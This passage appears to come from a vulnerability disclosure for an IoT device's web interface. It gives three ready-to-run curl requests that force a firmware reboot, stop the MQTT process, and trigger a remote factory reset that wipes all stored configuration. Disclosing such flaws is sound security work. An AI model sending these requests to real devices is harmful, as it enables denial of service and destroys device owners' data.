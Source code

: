 ``` shell
curl -i -s -k  -X 'POST'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'Content-Type: application/json'																\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 24'																			\
-H 'Connection: close'																			\
--data-binary '{"version":"1.4.0.0.17"}'														\
'https://iot-server/service/upgrade/flow'
```

The device will reboot if the supplied firmware version exists.

---

_Service Manipulation_

The service located at `/module/` allows for three operations: stop, start and
restart. The operation can be appended URL, and the name of the process is
specified using the parameter. The name of the process can be retrieved through
a terminal of a machine running the operating system, like a virtual machine.

``` shell
curl -i -s -k  -X 'POST'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'Content-Type: application/json'																\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Content-Length: 23'																			\
-H 'Connection: close'																			\
--data-binary '{"process":"core:mqtt"}'															\
'https://iot-server/module/stop'
```

---

_Remote Factory Reset_

The service running at `/reset` enable issuing a factory reset of the machine.
This deletes all configurations and information stored on the machine. This
functionality enables an attacker to create a Denial of Service attack.

``` shell
curl -i -s -k  -X 'POST'																		\
-H 'Host: iot-server'																			\
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0'	\
-H 'Accept: */*'																				\
-H 'Accept-Language: en-US,en;q=0.5'															\
-H 'Accept-Encoding: gzip, deflate'																\
-H 'Referer: https://iot-server/refUI/'															\
-H 'X-Requested-With: XMLHttpRequest'															\
-H 'Connection: close'																			\
-H 'Content-Length: 0'																			\
'https://iot-server/reset'
```

---